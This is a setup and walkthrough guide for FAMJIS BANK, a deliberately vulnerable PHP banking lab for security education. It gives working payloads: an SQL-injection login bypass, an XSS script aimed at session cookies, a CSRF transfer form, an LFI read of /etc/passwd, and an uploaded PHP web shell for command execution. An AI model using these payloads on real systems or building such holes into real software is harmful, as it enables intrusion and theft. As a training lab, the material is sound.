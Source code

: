 
# **Comprehensive Web Application Vulnerability Lab**  
**FAMJIS BANK: A Deliberately Vulnerable Banking Portal**  

---

## **1. Lab Description**  
**FAMJIS BANK** is a **deliberately insecure** web application designed for cybersecurity education. It mimics a **real online banking system** with a **premium UI** while containing **multiple OWASP Top 10 vulnerabilities** for hands-on security testing.  

**Lab Features:**  
✔ **Real-world banking functionalities** (login, transfers, admin panel)  
✔ **Multiple vulnerabilities** (SQLi, XSS, CSRF, IDOR, LFI, RCE)  
✔ **Step-by-step exploit scenarios** for guided learning  
✔ **Instructor & student-friendly** (Easy setup, clear objectives)  

---

## **2. Prerequisites**  
### **For Students & Instructors**  
✅ Basic understanding of **web applications** (HTML, PHP, SQL)  
✅ Familiarity with **Burp Suite, OWASP ZAP, or manual testing**  
✅ Kali Linux (or any Linux with **XAMPP/LAMP**)  

### **System Requirements**  
- **OS:** Kali Linux (Recommended) / Ubuntu / Windows (WSL)  
- **Web Server:** XAMPP / LAMP  
- **Database:** MySQL  
- **Browser:** Firefox / Chrome (with F12 DevTools)  

---

## **3. Lab Objectives**  
By the end of this lab, students should be able to:  
🔹 **Identify & exploit SQL Injection (SQLi)**  
🔹 **Perform Cross-Site Scripting (XSS) attacks**  
🔹 **Bypass authentication via IDOR & CSRF**  
🔹 **Execute Local File Inclusion (LFI) & Remote Code Execution (RCE)**  
🔹 **Understand mitigation techniques** (Prepared statements, input validation)  

---

## **4. Step-by-Step Setup**  

### **A. Install XAMPP (Kali Linux)**
```bash
wget https://www.apachefriends.org/xampp-files/8.2.4/xampp-linux-x64-8.2.4-0-installer.run
chmod +x xampp-linux-x64-8.2.4-0-installer.run
sudo ./xampp-linux-x64-8.2.4-0-installer.run
sudo /opt/lampp/lampp start
```

### **B. Deploy FAMJIS BANK**
```bash
git clone https://github.com/Faisalauchan/famjis-bank.git
sudo cp -r famjis-bank /opt/lampp/htdocs/
sudo chmod -R 777 /opt/lampp/htdocs/famjis-bank/uploads
```

### **C. Import Database**
```bash
mysql -u root -p < /opt/lampp/htdocs/famjis-bank/database.sql
```

### **D. Access the Lab**
🌐 **URL:** `http://localhost/famjis-bank/`  
👤 **Admin Login:** `admin:admin123`  

---

## **5. Exploring Vulnerabilities**  

### **Vulnerability 1: SQL Injection (SQLi)**
- **Location:** `login.php`  
- **Exploit:**  
  ```sql
  Username: admin' --  
  Password: [anything]  
  ```
- **Impact:** Bypass authentication as admin.  

### **Vulnerability 2: Cross-Site Scripting (XSS)**
- **Location:** `transfer.php` (Description field)  
- **Exploit:**  
  ```html
  <script>alert('XSS')</script>
  ```
- **Impact:** Steal session cookies via `document.cookie`.  

### **Vulnerability 3: CSRF (Cross-Site Request Forgery)**
- **Location:** `transfer.php` (No CSRF token)  
- **Exploit:**  
  ```html
  <form action="http://localhost/famjis-bank/transfer.php" method="POST">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="recipient" value="attacker">
    <input type="submit" value="Click for Free Money!">
  </form>
  ```
- **Impact:** Unauthorized fund transfers.  

### **Vulnerability 4: Local File Inclusion (LFI)**
- **Location:** `statements.php?file=`  
- **Exploit:**  
  ```
  http://localhost/famjis-bank/statements.php?file=../../../../etc/passwd
  ```
- **Impact:** Read sensitive system files.  

### **Vulnerability 5: Remote Code Execution (RCE)**
- **Location:** `upload.php` (Profile picture upload)  
- **Exploit:**  
  1. Upload `shell.php` (`<?php system($_GET['cmd']); ?>`)  
  2. Access at `http://localhost/famjis-bank/uploads/shell.php?cmd=id`  
- **Impact:** Full server compromise.  

---

## **6. Example Testing Scenarios**  

| **Scenario** | **Objective** | **Tools Used** |
|-------------|--------------|----------------|
| **Bypass Login** | Exploit SQLi to log in as admin without a password | Browser, Burp Suite |
| **Steal Cookies** | Perform XSS to hijack sessions | `document.cookie` + Netcat |
| **Forge Transactions** | Execute CSRF attack to transfer funds | Malicious HTML form |
| **Read /etc/passwd** | Exploit LFI to leak system files | Curl / Browser |
| **Gain RCE** | Upload a PHP shell for command execution | AntSword / Manual |

---

## **7. Notes & Best Practices**  

### **For Students**  
🔹 **Always test ethically** (Never attack systems without permission).  
🔹 **Document findings** (Take screenshots, record payloads).  
🔹 **Understand mitigations** (How would you fix each vulnerability?).  

### **For Instructors**  
🔹 **Use a controlled environment** (Virtual machines, isolated networks).  
🔹 **Discuss real-world breaches** (Equifax, Sony, etc.).  
🔹 **Encourage reporting** (Teach responsible disclosure).  

---

## **8. Additional Resources**  
📚 **Books:**  
- *The Web Application Hacker’s Handbook* (Dafydd Stuttard)  
- *OWASP Testing Guide*  

🛠 **Tools:**  
- Burp Suite Community  
- OWASP ZAP  
- SQLmap  

🌐 **Websites:**  
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)  
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)  

---

## **9. Ethical Considerations**  
⚠ **Legal Compliance:**  
- Only use this lab in **authorized environments**.  
- Never test **production systems** without permission.  

⚖ **Responsible Disclosure:**  
- If vulnerabilities are found in real systems, **report them ethically**.  

---

## **10. Lab Conclusion**  
This lab provides a **safe, controlled environment** to practice **real-world web app exploitation** while learning **defensive coding practices**.  

**Next Steps:**  
- Try **advanced exploits** (JWT cracking, SSRF chaining).  
- Implement **security patches** (e.g., CSP for XSS).  

Would you like a **PDF version** of this guide for classroom use? 📄

